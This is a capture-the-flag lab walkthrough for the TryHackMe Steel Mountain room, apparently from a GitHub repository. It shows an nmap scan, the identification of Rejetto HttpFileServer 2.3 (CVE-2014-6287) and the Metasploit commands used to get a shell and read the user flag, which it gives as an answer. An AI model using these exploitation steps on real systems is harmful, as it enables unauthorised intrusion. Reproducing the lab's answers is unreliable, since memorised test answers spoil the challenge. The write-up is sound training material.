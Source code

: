 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - Picture: [Steel_Moutain_1.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_1.png)
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - Picture: [Steel_Moutain_2.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_2.png) <br>[Steel_Moutain_3.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_3.png)
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - Picture: [Steel_Moutain_4.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_4.png)
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - Picture: [Steel_Moutain_5.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_5.png)<br>[Steel_Moutain_6.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_6.png)
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        msfconsole
    - find the exploit
        search exploit rejetto
        Picture: [Steel_Moutain_7.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_7.png)
    - Select the exploit
        use [payload number]
        Picture: [Steel_Moutain_8.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_8.png)
    - Check the options
        options
        Picture: [Steel_Moutain_9.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_9.png)
    - Indicate the remote hosts ip and port (This server run on port 8080)
        set RHOSTS [IP]
        set RPORT [port]
        Picture: [Steel_Moutain_10.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_10.png)
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        run
        Picture: [Steel_Moutain_11.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_11.png)
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    Picture: [Steel_Moutain_12.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_12.png)
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
